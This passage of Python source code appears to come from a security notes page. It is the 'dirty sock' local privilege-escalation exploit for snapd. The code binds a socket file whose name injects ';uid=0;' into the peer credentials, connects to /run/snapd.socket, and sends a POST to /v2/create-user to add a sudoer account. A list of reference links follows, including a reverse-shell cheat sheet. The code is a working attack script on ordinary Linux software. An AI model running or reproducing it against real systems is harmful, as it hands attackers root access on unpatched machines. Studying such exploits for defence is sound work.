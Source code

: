 ```python

    if not os.path.isfile(args.key):
        print("[!] That key file does not exist. Please try again.")
        sys.exit()

    return args

def create_sockfile():
    """Generates a random socket file name to use"""
    alphabet = string.ascii_lowercase
    random_string = ''.join(random.choice(alphabet) for i in range(10))
    dirty_sock = ';uid=0;'

    # This is where we slip on the dirty sock. This makes its way into the
    # UNIX AF_SOCKET's peer data, which is parsed in an insecure fashion
    # by snapd's ucrednet.go file, allowing us to overwrite the UID variable.
    sockfile = '/tmp/' + random_string + dirty_sock

    print("[+] Slipped dirty sock on random socket file: " + sockfile)

    return sockfile

def bind_sock(sockfile):
    """Binds to a local file"""
    # This exploit only works if we also BIND to the socket after creating
    # it, as we need to inject the dirty sock as a remote peer in the
    # socket's ancillary data.
    print("[+] Binding to socket file...")
    client_sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    client_sock.bind(sockfile)

    # Connect to the snap daemon
    print("[+] Connecting to snapd API...")
    client_sock.connect('/run/snapd.socket')

    return client_sock

def add_user(args, client_sock):
    """Main exploit function"""
    post_payload = ('{"email": "' + args.username +
                    '", "sudoer": true, "force-managed": true}')
    http_req = ('POST /v2/create-user HTTP/1.1\r\n'
                'Host: localhost\r\n'
                'Content-Length: ' + str(len(post_payload)) + '\r\n\r\n'
                + post_payload)

    # Send our payload to the snap API
    print("[+] Sending payload...")
    client_sock.sendall(http_req.encode("utf-8"))

    # Receive the data and extract the JSON
    http_reply = client_sock.recv(8192).decode("utf-8")

    # Try to extract a username from the valid reply
    regex = re.compile(r'"status":"OK","result":{"username":"(.*?)"')
    username = re.findall(regex, http_reply)

    # If exploit was not successful, give details and exit
    if '"status":"Unauthorized"' in http_reply:
        print("[!] System may not be vulnerable, here is the API reply:\n\n")
        print(http_reply)
        sys.exit()

```

[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/